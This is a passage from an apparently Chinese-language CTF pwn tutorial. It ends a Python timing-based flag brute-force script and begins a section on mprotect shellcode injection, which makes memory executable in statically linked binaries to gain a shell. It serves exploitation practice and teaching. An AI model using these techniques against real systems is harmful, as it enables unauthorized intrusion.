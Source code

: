 ```python
			attack(o, i, ch)
			try:
				o.recv(timeout=2)
			except:
				pass
			end_time = time.time()
			o.close()
			if end_time - start_time > 1:
				flag.append(ch)
				break
		else:
			flag.append("?")
		i += 1
	print flag
```

如果脚本没写错, 那么中间执行有一些部分有停顿, 跑几分钟应该就会出结果

![image-20220327162503371](自救指南.assets/image-20220327162503371.png)

如果出问题可以尝试执行一次调试看看

>   有时候远程连接的时候要注意可能IO速度太快导致网络无法反馈，最后ans可能为空，解决方法是打开调试模式，或者添加两次连接之间的间隔



## mprotect shellcode injection

### 介绍

前一篇[ROPChain](#ROPChain)讲过有时候会遇到一些静态编译的题目, 但是输入如果受到字节限制, 那么就不能再采用ROPChain那种方法来做, 可以尝试搜寻程序中的mprotect函数地址, 然后通过mprotect修改数据段的可执行权限, 接着注入shellcode, 最后跳转去执行这段shellcode获取shell

### mprotect

mprotect函数作用是修改某一段内存的权限

函数原型为

```c
#include<unistd.h>
#include<sys/mman.h>
int mprotect(const void *start, size_t len, int prot);
```
